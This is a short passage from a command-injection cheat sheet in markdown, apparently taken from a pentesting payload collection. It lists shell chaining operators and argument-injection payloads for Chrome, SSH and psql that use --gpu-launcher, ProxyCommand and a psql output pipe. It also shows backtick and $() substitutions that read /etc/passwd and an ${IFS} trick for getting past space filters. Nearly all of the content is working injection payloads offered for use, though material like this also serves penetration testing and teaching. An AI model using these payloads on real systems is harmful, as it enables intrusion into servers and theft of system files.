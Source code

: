 ```powershell
command1; command2   # Execute command1 and then command2
command1 && command2 # Execute command2 only if command1 succeeds
command1 || command2 # Execute command2 only if command1 fails
command1 & command2  # Execute command1 in the background
command1 | command2  # Pipe the output of command1 into command2
```

### Argument Injection

Gain a command execution when you can only append arguments to an existing command. Use this website [Argument Injection Vectors - Sonar](https://sonarsource.github.io/argument-injection-vectors/) to find the argument to inject to gain command execution.

*   Chrome

    ```ps1
      chrome '--gpu-launcher="id>/tmp/foo"'
    ```
*   SSH

    ```ps1
      ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
    ```
*   psql

    ```ps1
      psql -o'|id>/tmp/foo'
    ```

### Inside a command

* Command injection using backticks.

```bash
  original_cmd_by_server `cat /etc/passwd`
```

* Command injection using substitution

```bash
  original_cmd_by_server $(cat /etc/passwd)
```

## Filter Bypasses

### Bypass without space

* `$IFS` is a special shell variable called the Internal Field Separator. By default, in many shells, it contains whitespace characters (space, tab, newline). When used in a command, the shell will interpret `$IFS` as a space. `$IFS` does not directly work as a seperator in commands like `ls`, `wget`; use `${IFS}` instead.

```
  cat${IFS}/etc/passwd
  ls${IFS}-la
```
